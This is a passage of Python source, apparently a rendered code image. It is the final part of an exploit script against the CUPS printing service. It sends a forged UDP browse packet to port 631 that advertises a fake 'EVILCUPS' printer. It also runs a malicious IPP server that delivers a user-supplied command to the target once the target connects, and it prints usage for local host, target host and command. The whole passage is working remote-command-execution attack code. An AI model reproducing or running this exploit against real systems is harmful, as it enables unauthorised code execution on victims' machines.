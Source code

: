 ```python
        }
        attr.update(super().minimal_attributes())
        return attr

    def operation_printer_list_response(self, req, _psfile):
        print("\ntarget connected, sending payload ...")
        attributes = self.printer_list_attributes()
        return IppRequest(
            self.version,
            StatusCodeEnum.ok,
            req.request_id,
            attributes)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print(f"Sending udp packet to {ip}:{port}...")
    printer_type = 2
    printer_state = '3'
    printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
    printer_location = '"You Have Been Hacked"'
    printer_info = '"HACKED"'
    printer_model = '"HP LaserJet 1020"'
    packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(packet.encode('utf-8'), (ip, port))

def run_server(server):
    with ServerContext(server):
        try:
            while True:
                time.sleep(.5)
        except KeyboardInterrupt:
            pass
    
    server.shutdown()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = sys.argv[3]

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))

    threading.Thread(
        target=run_server,
        args=(server, )
    ).start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    print("Please wait this normally takes 30 seconds...")

```